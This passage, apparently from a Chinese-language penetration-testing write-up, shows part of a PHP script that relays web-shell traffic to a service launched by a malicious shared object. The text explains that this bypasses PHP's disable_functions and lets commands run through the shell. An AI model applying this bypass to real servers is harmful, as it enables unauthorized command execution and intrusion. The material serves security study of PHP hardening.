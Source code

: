 ```plain
if (!empty($_SERVER['CONTENT_TYPE'])) {
    $out .= "Content-Type: ".$_SERVER['CONTENT_TYPE']."\r\n";
}
$out .= "Content-length:".strlen($post_data)."\r\n";

$out .= implode("\r\n",$headers);
$out .= "\r\n\r\n";
$out .= "".$post_data;

fputs($fp, $out);

$response = '';
while($row=fread($fp, 4096)){
    $response .= $row;
}
fclose($fp);
$pos = strpos($response, "\r\n\r\n");
$response = substr($response, $pos+4);
echo $response;
```

这个脚本把客户端提交的数据转发到了恶意 so 建立的新 web 服务，并接收 response 返回给客户端

由于恶意 so 建立的 web 服务不使用 php.ini，这就绕过了 disable\_functions

我们修改 shell 地址进行连接，此时已经可以正常执行命令

[![](assets/1708920000-3e230d0fc70f7cc26a16823c54d1b723.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212220924940.png)

